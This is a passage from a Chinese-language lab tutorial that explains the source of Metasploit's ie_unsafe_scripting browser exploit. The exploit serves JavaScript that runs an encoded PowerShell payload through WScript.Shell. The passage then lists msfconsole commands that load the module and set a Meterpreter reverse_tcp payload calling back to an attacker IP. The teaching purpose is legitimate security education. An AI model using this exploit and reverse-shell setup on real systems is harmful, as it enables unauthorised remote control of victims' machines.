 ```
    print_status("Request received for #{request.uri}")
    print_status("Sending exploit html/javascript");

    # 发送响应到客户端
    send_response(cli, js_content, { 'Content-Type' => 'text/html' })

    # 处理特定的有效载荷 payload 这个东西
    handler(cli)
  end
...
...
...
  # 构建的 javaScript 其中一部分
  def psh_technique(var_shellobj, p)
    cmd = Rex::Text.to_hex(cmd_psh_payload(payload.encoded, payload_instance.arch.first))
    js_content = %Q|
<html><head></head><body><script>

# 实例化 ActiveXObject 对象，启用并返回 Automation 对象的引用
var #{var_shellobj} = new ActiveXObject("WScript.Shell");

# 运行 run 函数进行 cmd 命令操作
#{var_shellobj}.run(unescape("#{cmd}"), 1, true);
</script></html>
|
    js_content
  end
```
### 4.2 使用 Metasploit 进行攻击

在解释了攻击模块 `ie_unsafe_scripting` 的关键部分源码之后，我们使用 `ie_unsafe_scripting` 模块进行攻击。首先在 `Msfconsole` 中使用 `use` 命令使用漏洞攻击模块：
```
# 使用已经集成的攻击模块
msf > use exploit/windows/browser/ie_unsafe_scripting
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483608451092.png-wm)

接着使用 `set` 命令设置攻击载荷，并使用 `show options` 命令参数查看需要填写的选项，最后使用 `set` 命令设置攻击机的 IP 地址：
```
# 设置攻击的载荷
msf > set payload windows/meterpreter/reverse_tcp

# 查看参数信息
msf > show options

# 设置主机 IP 地址
msf > set LHOST 192.168.122.101
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483610486105.png-wm)
